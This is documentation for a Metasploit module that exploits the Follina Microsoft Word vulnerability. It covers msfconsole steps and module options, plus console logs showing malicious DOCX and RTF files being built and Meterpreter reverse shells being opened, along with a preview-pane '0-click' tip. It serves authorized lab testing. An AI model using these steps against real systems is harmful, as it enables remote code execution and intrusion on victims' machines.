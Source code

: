 There exists a vulnerability in Microsoft Word that leverages the remote template feature to achieve remote code
execution against the target.

The vulnerability came to light after an independent cyber-security research team known as `nao_sec` uncovered a Word
document ([05-2022-0438.doc](https://app.any.run/tasks/713f05d2-fe78-4b9d-a744-f7c133e3fafb/)) that was uploaded to
VirusTotal from an IP address in Belarus.

The document uses the remote template feature to fetch an HTML document and then uses the `ms-msdt` scheme to execute
PowerShell code.

## Vulnerable Application

The vulnerability has been found in Office 2013, 2016, 2019, 2021, Office ProPlus and Office 365. It also applies to
Windows itself, e.g. it can be called from `.lnk` files and with `wget` into `PowerShell`.

The vulnerability is exploitable using `.RTF` files on all versions of Office 365, including current channel.

However, with Insider and Current builds of Office, it doesn't seem to work.

### Make your lab

You need an official version of Microsoft Office installed.

Tested on Microsoft Windows 10 1909 with Microsoft Office Word 2016.

## Verification Steps

1. Start `msfconsole`
2. `use exploit/windows/fileformat/word_msdtjs_rce`
3. `set SRVHOST [IP]`
4. `set LHOST [IP]`
5. `run`

## Options

**CUSTOMTEMPLATE**

A DOCX file that will be used as a template to build the exploit.

**OBFUSCATE**

Obfuscate JavaScript content. Default: true

**URIPATH**
The URI for the callback to get the payload.  Testing suggests this must be ANSI compatible and the full URI must be less than 76 characters.

## Scenarios

### Basic use

1. Generate the exploit for docx as following.

```
[*] Started reverse TCP handler on 172.20.32.36:4444 
[*] Using URL: http://172.20.32.36:8080/1GWqOqp7e1
[*] Server started.
[*] Generate a malicious docx file
[*] Using template '/tmp/payload.docx'
[*] Parsing item from template: docProps/
[*] Parsing item from template: docProps/core.xml
[*] Parsing item from template: docProps/app.xml
[*] Parsing item from template: word/
[*] Parsing item from template: word/theme/
[*] Parsing item from template: word/theme/theme1.xml
[*] Parsing item from template: word/styles.xml
[*] Parsing item from template: word/settings.xml
[*] Parsing item from template: word/document.xml
[*] Parsing item from template: word/_rels/
[*] Parsing item from template: word/_rels/document.xml.rels
[*] Parsing item from template: word/fontTable.xml
[*] Parsing item from template: word/webSettings.xml
[*] Parsing item from template: _rels/
[*] Parsing item from template: _rels/.rels
[*] Parsing item from template: [Content_Types].xml
[*] Injecting payload in docx document
[*] Finalizing docx 'msf.docx'
[+] msf.docx stored at /home/[REDACTED]/.msf4/local/msf.docx
[*] Powershell command length: 3724
```

2. Open the DOCX document on a remote vulnerable system.

```
[*] 172.20.32.36      word_msdtjs_rce - Sending HTML Payload
[*] 172.20.32.36      word_msdtjs_rce - Obfuscate JavaScript content
[*] 172.20.32.36      word_msdtjs_rce - Sending HTML Payload
[*] 172.20.32.36      word_msdtjs_rce - Obfuscate JavaScript content
[*] 172.20.32.36      word_msdtjs_rce - Sending HTML Payload
[*] 172.20.32.36      word_msdtjs_rce - Obfuscate JavaScript content
[*] 172.20.32.36      word_msdtjs_rce - Sending PowerShell Payload
[*] Sending stage (200262 bytes) to 172.20.32.36
[*] Meterpreter session 1 opened (172.20.32.36:4444 -> 172.20.32.36:42674 ) at 2022-05-30 19:32:37 +0400
```

### The 0-Click tip

You can get the 0-click by either selecting the 'rtf' option in converting, manually, the `.docx` file generated by the module into a `.rtf` file format.

### RTF 

1. Generate the exploit for rtf as following.
```
msf exploit(windows/fileformat/word_msdtjs_rce) > show options

Module options (exploit/windows/fileformat/word_msdtjs_rce):

Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
CUSTOMTEMPLATE                   no        A DOCX file that will be used as a template to build the exploit.
FILENAME        msf.docx         no        The file name.
OBFUSCATE       true             yes       Obfuscate JavaScript content.
OUTPUT_FORMAT   docx             yes       File format to use [docx, rtf]. (Accepted: docx, rtf)
SRVHOST         10.5.135.101     yes       The local host or network interface to listen on. This must be an address on the loca
l machine or 0.0.0.0 to listen on all addresses.
SRVPORT         8080             yes       The local port to listen on.
SSL             false            no        Negotiate SSL for incoming connections
SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
URIPATH                          no        The URI to use for this exploit (default is random)


Payload options (windows/x64/meterpreter/reverse_tcp):

Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
LHOST                      yes       The listen address (an interface may be specified)
LPORT     4444             yes       The listen port


Exploit target:

Id  Name
   --  ----
0   Microsoft Office Word


msf exploit(windows/fileformat/word_msdtjs_rce) > set filename test.rtf
filename => test.rtf
msf exploit(windows/fileformat/word_msdtjs_rce) > set output_format rtf
output_format => rtf
msf exploit(windows/fileformat/word_msdtjs_rce) > set lhost 10.5.135.101
lhost => 10.5.135.101
msf exploit(windows/fileformat/word_msdtjs_rce) > set verbose true
verbose => true
msf exploit(windows/fileformat/word_msdtjs_rce) > set disablepayloadhandler false
disablepayloadhandler => false
msf exploit(windows/fileformat/word_msdtjs_rce) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.5.135.101:4444
[*] Using URL: http://10.5.135.101:8080/7eIbCn81aas277
[*] Server started.
[*] Generating a malicious rtf file
[+] test.rtf stored at /home/tmoose/.msf4/local/test.rtf
msf exploit(windows/fileformat/word_msdtjs_rce) > [*] Powershell command length: 3718
```

2. Upload rtf file to remote host, make sure 'preview' is enabled, and click on the file.  (You don't need to open it, just click once to preview it)

```
[*] 10.5.132.101     word_msdtjs_rce - Sending HTML Payload
[*] 10.5.132.101     word_msdtjs_rce - Obfuscate JavaScript content
[*] 10.5.132.101     word_msdtjs_rce - Sending PowerShell Payload
[*] Sending stage (200774 bytes) to 10.5.132.101
[*] Meterpreter session 1 opened (10.5.135.101:4444 -> 10.5.132.101:51221) at 2022-08-17 10:56:01 -0500

msf exploit(windows/fileformat/word_msdtjs_rce) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-D1E425Q
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-D1E425Q\msfuser
```

## References

  1. <https://www.reddit.com/r/blueteamsec/comments/v06w2o/suspected_microsoft_word_zero_day_in_the_wild/>
  2. <https://twitter.com/nao_sec/status/1530196847679401984?t=3Pjrpdog_H6OfMHVLMR5eQ&s=19>
  3. <https://app.any.run/tasks/713f05d2-fe78-4b9d-a744-f7c133e3fafb/>
  4. <https://doublepulsar.com/follina-a-microsoft-office-code-execution-vulnerability-1a47fce5629e>
  5. <https://twitter.com/GossiTheDog/status/1531608245009367040>
  6. <https://github.com/JMousqueton/PoC-CVE-2022-30190>
